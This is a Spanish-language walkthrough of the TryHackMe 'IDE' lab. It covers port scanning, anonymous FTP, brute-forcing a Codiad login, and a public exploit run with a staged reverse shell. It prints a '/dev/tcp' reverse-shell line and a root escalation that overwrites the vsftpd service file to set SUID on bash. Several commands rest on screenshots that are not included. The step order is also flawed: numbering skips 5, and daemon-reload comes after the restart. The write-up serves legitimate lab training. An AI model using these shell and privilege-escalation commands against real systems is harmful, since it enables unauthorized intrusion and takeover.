

  
# TryHackMe - IDE 

 
## GUÍA COMPLETA EN ESPAÑOL 

  
  
  

## ÍNDICE

### · RECONOCIMIENTO  
### · FTP  
### · FUERZA BRUTA  
### · EXPLOTACIÓN INICIAL  
### · MOVIMIENTO LATERAL  
### · ESCALADA DE PRIVILEGIOS  
### · CONCLUSIONES

 ## RECONOCIMIENTO     
Lo primero que haré es usar nmap como buen hacker que soy:

**-vv:** lanzar el comando el modo verboso para que nos muestre más información.  
**-sS:** escaneo SYN (sigiloso). Verifica el estado de los puertos iniciando conexiones TCP pero sin completarlas.  
**-oN:** guardamos el resultado del escaneo en un archivo, en este caso “scan.txt”.   
**-p-:** podemos especificar los puertos que queremos que sean escaneados, al poner “-” nos escaneará todos los puertos.  

Ya somos capaces de ver los puertos abiertos de la máquina a la queremos atacar, ahora vamos a lanzar otro comando con nmap para ver si conseguimos más información sobre estos puertos. Este tipo de escaneo nos proporciona información muy útil, pero lo que estamos buscando ahora mismo es: 

Aqui nos indica la versión del servicio de cada puerto

## FTP  

Vamos a conectarnos por el puerto FTP a través del usuario anónimo:

  

**Usuario:** anonymous  
**Contraseña:** (no hay)  

Echamos un vistazo a los directorios:

Los directorios . y .. son directorios estándar en sistemas operativos UNIX pero … no lo es, con lo que vamos a acceder a él y a mirar en su interior:

Como vemos, dentro del directorio tenemos un archivo llamado “-”, usando el comando get, vamos a descargar ese archivo a ver que nos encontramos:

Renombro el archivo para poder leerlo con cat y lo leemos:

Como podemos ver el archivo dice:  
*“Hola John,  
He reseteado la contraseña como me pediste. Por favor usa la contraseña por defecto para loguearte. Además, por favor ten cuidado con el archivo de la imagen ;)  
-drac”*

Perfecto, hemos conseguido saber el nombre de dos usuarios del sistema, John y Drac, y la pista de que seguramente ambos usen contraseñas predeterminadas, así que muy complicadas no tienen que ser…

## Fuerza Bruta

Vamos a realizar un ataque de fuerza bruta con burpsuite, para ello voy a usar wordlists de seclists, podeis descargarlo a través de github (os dejo enlace) o usando “sudo apt install seclists” y las encontrareis en “/usr/share/seclists”. Luego vamos a irnos al puerto de codiad “62337” que escaneamos antes.

Para realizar el ataque de fuerza bruta con burpsuite debemos de interceptar la petición de login y fuzzear en el input de la contraseña de la siguiente forma:

Lanzamos la petición con unas credenciales cualquiera:

Interceptamos la solicitud:

Ahora modifico el username a *“john”* y en password añado un payload:

Ahora selecciono la wordlist y lanzo el ataque de fuerza bruta:

Como se puede ver, la contraseña es **password**, con lo que ya podemos acceder como *john* al codiad:

## Explotación Inicial

Ahora para acceder al sistema como usuario, vamos a utilizar este exploit que debemos descargar de exploit-db:

Para ejecutar este exploit debemos de ejecutar los siguientes dos comandos en terminales diferentes:

Esto es debido a que el exploit puede tener limitaciones en el payload que puede inyectar, por lo que se realizar una técnica llamada **“staged reverse shell”** o **reverse shell en dos etapas**.

Para aclararlo, un staged reverse shell una técnica de explotación en la que el establecimiento de **una shell remota se realiza en múltiples fases secuenciales**. En lugar de enviar el payload completo en una única transmisión, se envía inicialmente un pequeño fragmento de código cuya función es establecer un canal de comunicación y descargar o recibir el payload principal que en este caso seria echo **'bash -c "bash -i >/dev/tcp/10.10.114.49/8001 0>&1 2>&1"' | nc -lnvp 8000**  que contiene la funcionalidad completa de la shell.

A este comando se le conoce como **stager** y al exploit principal como **stage**.

***¿Por qué se utiliza esta técnica y no simplemente lanzar una única shell?***  

Porque permite evadir restricciones de tamaño, filtros de seguridad y limitaciones del vector de ataque inicial, ya que el stager suele ser lo suficientemente pequeño y simple como para pasar desapercibido o caber en buffers limitados, mientras que el stage posterior puede ser tan complejo y extenso como sea necesario al transmitirse por el canal ya establecido.

Una vez terminada la explicación y lanzado el stager, vamos a ejecutar el exploit:

**python3 49705.py [URL] [USER] [PASSWORD] [TU IP] [Puerto de escucha] [OS]**

En las otras terminales lo que vimos en la imagen anterior, y en el puerto de escucha 8001 estaremos dentro de la máquina como usuario:

Una vez dentro buscaremos la flag del usuario entrando en el directorio home:

Encontramos el directorio del usuario drac.

Aqui encontramos la flag de usuario pero al hacer cat nos deniega por falta de permisos, ahora debemos de combiarnos de usuario a drac.

## Movimiento lateral

Para ello debemos de ejecutar el siguiente comando: 

***¿Por qué este comando o qué hace este comando?***

Primero voy a explicar el comando orden por orden:

**· script:** graba sesiones de terminal, pero aquí lo usamos para crear una PTY (pseudo-terminal)  
**· -q:** Modo silencioso (quiet): no muestra mensajes de inicio/fin  
**· -c /bin/bash:** Ejecuta el comando /bin/bash dentro de la PTY  
**· /dev/null:** Descarta la salida de grabación (no queremos grabar, solo queremos la PTY)  

**Y nos interesa porque ahora:**

· Puedes usar **su** para cambiar de usuario (requiere TTY)  
· Puedes usar comandos que requieren **contraseña interactiva**  
· Funciona **sudo**  
· Puedes usar editores como **nano** o **vim**  
· Tienes **tab** completion  
· **Ctrl+C** ya no mata tu shell completa  

En resumen, este comando  se usa para obtener una **TTY** *(terminal)* interactiva completa que nos permitirá realizar el cambio de usuario.

Solucionado este problema, tenemos otro, no conocemos la contraseña, para ello he decidido mirar en el *bash_history* para ver si me deja alguna pista: 

Y no encontramos pistas pero si la contraseña…

Ahora solo tendremos que usar su drac e introducir la contraseña:

Hacemos cat al user.txt:

## Escalada de Privilegios

Ahora debemos de conseguir acceso como root, para ello vamos a intentar acceder a root a ver que nos responde la terminal:

Viendo esto sabemos que el servicio **vsftpd** es vunerable porque cuando vi que podia ejecutar **"sudo /usr/sbin/service vsftpd restart"**, supe que era explotable porque el comando service no hace nada por sí mismo, solo es un intermediario que busca y ejecuta otros archivos. Es como si tuviera permiso para ejecutar como root un comando que dice **"ejecuta lo que hay en este otro archivo"**. Si puedo modificar ese otro archivo, entonces controlo qué se ejecuta como **root**.

El comando service funciona buscando archivos de configuración o scripts en varias ubicaciones del sistema. En sistemas antiguos busca en /etc/init.d/ y en sistemas modernos busca archivos .service en las carpetas de systemd. Mi estrategia fue intentar modificar cualquiera de estos archivos que service fuera a ejecutar.

Por ello realicé lo siguiente:

**1. cp /etc/systemd/system/multi-user.target.wants/vsftpd.service /tmp/vsftpd.service.bak**  
Este comando copia el archivo original del servicio a /tmp como respaldo. Es una buena práctica hacer backup antes de modificar archivos del sistema. Si algo sale mal, puedes restaurar el original. El primer path es el archivo origen y el segundo es el destino con un nombre nuevo terminado en .bak (backup).

**2. cat > /etc/systemd/system/multi-user.target.wants/vsftpd.service << 'EOF'**  
Este comando sobrescribe completamente el archivo vsftpd.service con contenido nuevo. El cat > significa "escribe en este archivo". El << 'EOF' significa "todo lo que escriba desde la siguiente línea hasta que escriba EOF será el contenido del archivo". Es una forma de crear un archivo con múltiples líneas desde la terminal.

**3. El contenido del archivo seria:**  
[Service]  
Type=oneshot  
ExecStart=/bin/bash -c 'chmod u+s /bin/bash'  

Esto es la configuración del servicio. Le dice a systemd que cuando alguien inicie este servicio, ejecute el comando chmod u+s /bin/bash. Este comando modifica los permisos de /bin/bash añadiendo el bit SUID (la 's' significa "Set User ID"). Cuando un archivo tiene SUID, se ejecuta con los permisos del dueño del archivo (root) en lugar de quien lo ejecuta.

**4. sudo /usr/sbin/service vsftpd restart**  
Este comando reinicia el servicio vsftpd como root. Como modifiqué el archivo del servicio, cuando se ejecuta, en lugar de iniciar el servidor FTP, ejecuta mi comando malicioso chmod u+s /bin/bash con privilegios de root. Service es un comando que gestiona servicios del sistema, y restart significa reiniciar.

**6. systemctl daemon-reload**  
Le dices a systemd que vuelva a leer todos los archivos de configuración del disco. Systemd descarta la versión vieja que tenía en memoria y lee tu archivo modificado. Ahora systemd ya sabe que el servicio vsftpd debe ejecutar chmod u+s /bin/bash en lugar de iniciar el servidor FTP.

**7. /bin/bash -p**  
Este comando ejecuta bash preservando los privilegios. Normalmente, bash detecta cuando se ejecuta con SUID y por seguridad baja los privilegios al usuario real. El flag -p (preserve) le dice a bash que NO baje los privilegios, que los mantenga. Como bash ahora tiene el bit SUID y es propiedad de root, esto me convierte en root.

Luego de estos ya seremos root:

Y ahora solo tenemos que meternos en el directorio de root y hacer cat a root.txt:

  
# DISCLAIMER

Este writeup es SOLO para propósitos educativos.  
Úsalo responsablemente en entornos autorizados como TryHackMe.  

**Autor:** pablocaraballofernandez  
**Plataforma:** TryHackMe

  
  
  
  
  .
  

 

